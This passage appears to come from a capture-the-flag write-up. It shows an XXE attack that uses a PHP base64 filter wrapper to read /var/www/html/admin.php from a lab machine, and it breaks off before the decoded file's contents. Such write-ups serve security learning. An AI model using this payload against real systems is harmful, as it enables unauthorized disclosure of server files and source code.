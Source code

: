 <p align="center"><img src="./files/XXEtest.png"></p>

From this file, I found two user on the machine named `cyber` and `yash`. Next I tried reading different files on the machine, like the html files, but I got nothing. I decided to use PHP wrappers and the payload worked. I used the following payload to get `admin.php` file:

~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lol [
   <!ELEMENT lol ANY >
   <!ENTITY haha SYSTEM  "php://filter/convert.base64-encode/resource=/var/www/html/admin.php" >]>
<root><name>sth</name><search>&haha;</search></root>
~~~

As you can see in the following image, we got a long base64 string which is `admin.php` file. I decoded it and found an interesting comment in the buttom of the code:
